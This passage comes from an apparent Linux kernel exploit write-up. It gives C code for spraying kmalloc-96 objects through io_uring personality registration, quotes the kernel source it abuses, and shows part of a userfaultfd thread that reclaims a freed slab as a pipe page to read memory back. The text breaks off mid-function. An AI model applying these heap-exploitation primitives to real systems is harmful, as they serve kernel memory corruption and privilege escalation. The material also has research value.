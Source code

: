 for `cc_alloc_kmalloc96` and `cc_free_kmalloc96` i used a nice primitive in `io_uring` that allows for spraying an unlimited amount of objects in `kmalloc-96`:

```c 
int uring_spray_fd;

static int64_t cc_alloc_kmalloc96()
{
    /* This will allocate a io uring identity in kmalloc-96. It can be repeated an arbitrary amount of times for a single uring instance. */
    int res = syscall(SYS_io_uring_register, uring_spray_fd, IORING_REGISTER_PERSONALITY, 0, 0);
    if (res < 0)
        fatal("alloc: io_uring_register() failed");
    
    return res;
}

static void cc_free_kmalloc96(int64_t personality)
{
    if (syscall(SYS_io_uring_register, uring_spray_fd, IORING_UNREGISTER_PERSONALITY, 0, personality) < 0)
        fatal("free: io_uring_register() failed");
}
```

Which corresponds to the following kernel code:
```c 
static int io_register_personality(struct io_ring_ctx *ctx)
{
	struct io_identity *iod;
	u32 id;
	int ret;

	iod = kmalloc(sizeof(*iod), GFP_KERNEL); /* sizeof (*iod) == 72 -> kmalloc-96 */
	if (unlikely(!iod))
		return -ENOMEM;

	io_init_identity(iod);
	iod->creds = get_current_cred();

	ret = xa_alloc_cyclic(&ctx->personalities, &id, (void *)iod,
			XA_LIMIT(0, USHRT_MAX), &ctx->pers_next, GFP_KERNEL);
	if (ret < 0) {
		put_cred(iod->creds);
		kfree(iod);
		return ret;
	}
	return id;
}
```

Then, to reallocate the slab as the backing buffer for a pipe, and subsequently read it out again:

```c 
static void *userfault_thread(void *arg)
{
    //[...]
    /* Reallocate freed kmalloc-96 slab as a pipe page. */
    uint64_t dummy_buf[0x1000 / 8] = {};
    for (size_t i = 0; i < ARRAY_SIZE(pipes); i++)
        if (write(pipes[i].write, dummy_buf, 0x1000) < 0)
            fatal("write() to pipe failed");

    /* unblock to trigger memcpy(). */
    size_t copied_size = 0;
    ufd_unblock_page_copy((void *)blockers[0].arg.pagefault.address, scratch, &copied_size);
```